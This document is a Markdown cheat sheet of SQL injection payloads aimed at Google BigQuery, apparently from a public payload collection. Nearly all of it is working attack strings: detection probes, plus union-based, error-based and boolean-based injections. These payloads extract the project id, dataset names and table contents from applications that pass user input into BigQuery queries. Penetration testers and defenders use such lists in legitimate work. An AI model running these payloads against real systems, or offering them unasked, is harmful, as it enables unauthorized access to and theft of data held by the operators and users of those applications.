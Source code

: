 # Google BigQuery SQL Injection 

## Summary

* [Detection](#detection)
* [BigQuery Comment](#bigquery-comment)
* [BigQuery Union Based](#bigquery-union-based)
* [BigQuery Error Based](#bigquery-error-based)
* [BigQuery Boolean Based](#bigquery-boolean-based)
* [BigQuery Time Based](#bigquery-time-based)
* [References](#references)

## Detection

* Use a classic single quote to trigger an error: `'`
* Identify BigQuery using backtick notation: ```SELECT .... FROM `` AS ...```

```ps1
# Gathering project id
select @@project_id

# Gathering all dataset names
select schema_name from INFORMATION_SCHEMA.SCHEMATA

# Gathering data from specific project id & dataset
select * from `project_id.dataset_name.table_name`
```

## BigQuery Comment

```ps1
select 1#from here it is not working
select 1/*between those it is not working*/
```

## BigQuery Union Based

```ps1
UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
true) GROUP BY column_name LIMIT 1 UNION ALL SELECT (SELECT 'asd'),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
true) GROUP BY column_name LIMIT 1 UNION ALL SELECT (SELECT @@project_id),1,1,1,1,1,1)) AS T1 GROUP BY column_name#
' GROUP BY column_name UNION ALL SELECT column_name,1,1 FROM  (select column_name AS new_name from `project_id.dataset_name.table_name`) AS A GROUP BY column_name#
```

## BigQuery Error Based

```ps1
# Error based - division by zero
' OR if(1/(length((select('a')))-1)=1,true,false) OR '

# Error based - casting: select CAST(@@project_id AS INT64)
dataset_name.column_name` union all select CAST(@@project_id AS INT64) ORDER BY 1 DESC#
```

## BigQuery Boolean Based

```ps1
' WHERE SUBSTRING((select column_name from `project_id.dataset_name.table_name` limit 1),1,1)='A'#
```

## BigQuery Time Based

* Time based functions does not exist in the BigQuery syntax.

## References

* [BigQuery SQL Injection Cheat Sheet - Ozgur Alp - February 14, 2022](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac)
* [BigQuery Documentation - Query Syntax - October 30, 2024](https://cloud.google.com/bigquery/docs/reference/standard-sql/query-syntax)
* [BigQuery Documentation - Functions and Operators - October 30, 2024](https://cloud.google.com/bigquery/docs/reference/standard-sql/functions-and-operators)
* [Akamai Web Application Firewall Bypass Journey: Exploiting “Google BigQuery” SQL Injection Vulnerability - Duc Nguyen - March 31, 2020](https://hackemall.live/index.php/2020/03/31/akamai-web-application-firewall-bypass-journey-exploiting-google-bigquery-sql-injection-vulnerability/)
